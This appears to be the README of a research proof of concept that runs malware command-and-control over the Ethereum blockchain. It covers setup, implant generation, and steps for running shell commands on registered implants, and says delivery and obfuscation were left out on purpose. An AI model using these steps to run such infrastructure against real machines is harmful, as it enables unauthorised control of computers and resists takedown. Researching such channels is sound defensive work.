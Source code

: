# About
UnblockableChains is a POC project of a fully functional C&C infrastructure on top of the public Ethereum network. The POC demonstrates a novel channel for implant and controller communication. This project was developed as a research project to evaluate this communication channel in order to test its feasibility and wether or not it will be used in real malicious campaigns.
By leveraging the blockchain as intermediate, the infrastructure is virtually unstoppable, dealing with most of the shortcoming of regular malicious infrastructures. Namely:
- Secure communications – Immune to data modifications, eavesdropping, MITM, replay attacks (V)
- High availability – node can always find the C&C (V)
- Scalable – Can support any number of implants and any load of transactions. (VX)
- Authentication – Only valid implants can connect, And only once. Resist replays, honeypotting. (V)
- Anonymity – No info can be gained on network operators. (V)
- Zero data leakage – No data can be gathered on other implants, data or network structure. (V)
- Takedown resistant – No single point of failure. Fully TNO. (V)
- Takeover resistant – No vulnerabilities or logic path that allows adversarial control of network. (V)
- Low operational costs (X)

Smart Contract is written in solidity, controller and implant code in python (using [![web3.py](https://github.com/ethereum/web3.py))


Demo Video:

[![DEMO](https://img.youtube.com/vi/82BalW09F54/0.jpg)](https://www.youtube.com/watch?v=82BalW09F54)


# Disclaimer
This project was created for Educational and Research purposes only. Its only purpose is to educate the security community of new and possibly emerging vector that attackers might use in the future. Illegal use of this and its variants or inclusion of it in illegal activities is not encouraged by its author (and was activly discouraged by removing some key components, see what is not included section below).  

# Features
- Controller panel
- Autorun & sync geth node
- Private / Rinkeby testnet / Mainnet work modes
- Contract deployment
- Wallet generation
- Implant generation
- Access management
- Send commands, execute, and return results from implants
- Fund transfers

### What is not included (yes, on purpose)
- Implant packaging, obfuscating and delivery
- Industry grade Encryption
- MachineId code


# Installation
Runs on linux or Windows 10 (with linux subsystem installed) only.

`git clone https://github.com/platdrag/UnblockableChains`

`cd UnblockableChains`

`python3 -m venv .\venv`

Windows: `venv\Scripts\activate.bat`

Linux: `venv\Scripts\activate`

`pip install -r requirements.txt`

* Windows: visual studio build tools might be needed

### Dependencies
- see requirements.txt

# Usage 
Following instruction are for **linux**. For Windows just replace / with \ in paths
### Using the CLI
Edit the deployment script (optional) at `conf/deployment/DeploymentConf.BASE.yaml`

Run the server bootstrap script. It will generate owner account, run a local full geth node, deploy the smart contract and create all necessary configuration to run controller UI. Optional:

`export PYTHONPATH=./src && python3 src/Server/DeployUnstoppableCnC.py .`

Run the server in interactive mode & use the `sc` object to issue commands:

`python3 -i src/Server/ServerCommands.py .`

* Available commands: generateNewClientInstance, allowInstance, removeInstance, addWork, fundTransfer

Generate a new bot client instance:

`>>> sc.generateNewClientInstance(1000000000000000000,opj('conf','clientGen', 'ClientConf.TEMPLATE.yaml'), port=30304)`

Note the generated wallet address. Implant will be placed under `./generated/<GeneratedWalletAddress>`
Transfer the implant to destination machine and run it:

`export PYTHONPATH=./src && python3 -i ./src/Client/ClientCommands.py . ./conf/clientConf.yaml`

Client will run its own node, contact the contract and register with it. If successful, it will start a listener for incoming commands.

Once client has registered, back on the server side use interactive shell to add work to the client:

``` 
>>> sc.addWork('0xa55be06a805566d480103cea559c4d1bc3f729d2', 'echo awesome')
// ... log output
... confirmed match between instance issued command and result: ['echo awesome', 'awsome']
```

### Using the web UI
Run the deployment script as described above
Create `static/`, `templates` dir symlinks:

`ln -s src-webapp/static .`
`ln -s src-webapp/templates .`

Run the webapp:

`export PYTHONPATH=src`
`python3 src-webapp/ecnc-webapp.py`

Access `http://127.0.0.1:5000/`

Generate one or more implants

Run client nodes as described above

Wait for the clients to register

Add/rm clients from index

Run shell commands on index-included clients 

# Troubleshooting
## handling 'insufficient funds for gas' during transactions
- this may present itself in the following form:

    File "/usr/local/lib/python3.6/dist-packages/web3/manager.py", line 106, in request_blocking
      raise ValueError(response["error"])
    ValueError: {'code': -32000, 'message': 'insufficient funds for gas * price + value'}

- fix: make sure no previous instance of geth is running

## handling web3 version incompatibilities
- this may present itself in the following form:

    Traceback (most recent call last):
      File "src/Server/DeployUnstoppableCnC.py", line 310, in <module>
        contract = deployContract (web3, conf, conf['contractAddress'])
      File "src/Server/DeployUnstoppableCnC.py", line 71, in deployContract
        ContractFactoryClass=ConciseContract)
    TypeError: contract() takes from 1 to 2 positional arguments but 3 were given

- fix: make sure you are using python web3 version 3.x

# Todos (Future work)
- Implement public key encryption
- Split fund to generated implant to a small fee up front that will suffice only registration and then transfer the rest after registration.
- Support multiple contract addresses
- Support placing command/result data to Swarm, only put hash on blockchain. 
- Allow Transfer messages using whisper
- Allow controller the return funds from a compromised implant account.
